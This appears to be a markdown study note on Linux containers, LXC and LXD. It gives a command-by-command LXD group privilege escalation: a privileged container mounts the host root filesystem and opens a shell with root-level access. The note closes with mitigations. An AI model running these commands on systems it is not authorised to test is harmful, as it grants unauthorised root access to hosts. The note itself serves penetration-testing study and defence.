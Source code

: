 
### **Overview**

- _Containers_ virtualize at the **OS level**, sharing the host kernel but isolating application processes.
- More lightweight than **virtual machines** which virtualize at the hardware level.
- Commonly used for:
    - Application isolation
    - Secure API deployment
    - Resource management and testing environments


---

## Linux Containers (LXC)

- OS-level virtualization that enables isolated Linux environments.
- Containers **share the host kernel** but maintain separate process trees.
- Lightweight, portable, and highly manageable.
- **Docker** popularized the use of LXC for app containerization.

---

### **Linux Daemon (LXD)**

- LXD is a system container manager designed to run a _full OS_ in a container.
- Allows management of containers with system-level isolation.
- Exploitable if the user belongs to the **lxd group**.

---

### **Privilege Escalation via LXD**

#### **Check Group Membership**
```bash
id
```
- Look for membership in `lxd` or `lxc`
#### **Use Existing Container Template**
```bash
ls ContainerImages/
# e.g., ubuntu-template.tar.xz
```

#### **Import & Initialize Image**
```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc init ubuntutemp privesc -c security.privileged=true
```

- `security.privileged=true`: disables isolation
- Allows container to interact with host resources

#### **Mount Host Filesystem**
```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

#### **Start Container and Access Host**
```bash
lxc start privesc
lxc exec privesc /bin/bash
cd /mnt/root
```
- You now have **root-level access** to the host filesystem

---

### **Security Implications**

- Poorly configured containers can be **abused to gain root** on host
- Template containers often have:
    - Weak security
    - No password protections
    - Default permissions and paths


---

### **Mitigation**

- Avoid adding untrusted users to `lxd` or `lxc` groups
- Use hardened container templates
- Monitor and restrict container privileges
- Isolate container access from the root filesystem